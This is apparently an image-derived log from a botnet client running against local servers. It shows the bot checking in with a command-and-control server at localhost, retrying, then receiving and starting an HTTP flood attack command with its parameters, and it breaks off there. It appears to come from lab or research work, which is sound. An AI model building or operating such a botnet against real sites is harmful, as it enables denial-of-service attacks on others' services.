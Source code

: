 \begin{verbatim}
	08:36:54.937 [main] INFO initializeBot - Bot initialized with ID=7C-D1-C3-77-FA-24-25184@MBP
	08:36:54.938 [main] INFO joinBotnet - Joining botnet...
	08:36:54.939 [main] INFO joinBotnet - Contacting controller at http://localhost:4000/init...
	08:36:55.202 [main] WARN joinBotnet - Cannot connect to C&C at http://localhost:4000/init.
                 Cannot load controller configuration.
	08:36:55.204 [main] INFO joinBotnet - Waiting for reconnection 3:SECONDS...
	08:36:58.209 [main] INFO joinBotnet - Contacting controller at http://localhost:4000/init...
	08:36:58.217 [main] WARN joinBotnet - Cannot connect to C&C at http://localhost:4000/init. 
                 Cannot load controller configuration.
	08:36:58.217 [main] INFO joinBotnet - Waiting for reconnection 3:SECONDS...
	08:37:01.218 [main] INFO joinBotnet - Contacting controller at http://localhost:4000/init...
	08:37:01.225 [main] WARN joinBotnet - Cannot connect to C&C at http://localhost:4000/init. 
                 Cannot load controller configuration.
	08:37:01.226 [main] INFO joinBotnet - Waiting for reconnection 3:SECONDS...
	08:37:04.228 [main] INFO joinBotnet - Contacting controller at http://localhost:4000/init...
	08:37:04.234 [main] WARN joinBotnet - Cannot connect to C&C at http://localhost:4000/init. 
                 Cannot load controller configuration.
	08:37:04.234 [main] WARN joinBotnet - Aborting connection to C&C at http://localhost:4000/init...
	08:37:04.234 [main] INFO joinBotnet - Contacting controller at http://localhost:3000/init...
	08:37:04.358 [main] INFO joinBotnet - Bot is up and running
	08:37:04.371 [main] INFO run - 
                 Received command ATTACK_HTTPFLOOD with params {
                 attacks=[HttpFloodAttack(super=AbstractFloodAttack(executions=3,
                 period=10-120:MILLISECONDS), method=GET, header={User-Agent=myBot},
                 params={}), HttpFloodAttack(super=AbstractFloodAttack(executions=1,
                 period=null), method=GET, header={}, params={})], report=false}
                 from C&C at http://localhost:3000/command
	08:37:04.372 [main] INFO executeCommand - 
                 Executing command ATTACK_HTTPFLOOD with params {
                 attacks=[HttpFloodAttack(super=AbstractFloodAttack(executions=3,
                 period=10-120:MILLISECONDS), method=GET, header={User-Agent=myBot},
                 params={}), HttpFloodAttack(super=AbstractFloodAttack(executions=1,
                 period=null), method=GET, header={}, params={})], report=false}
	08:37:04.373 [main] INFO attackHttpFlooding - 

\end{verbatim}
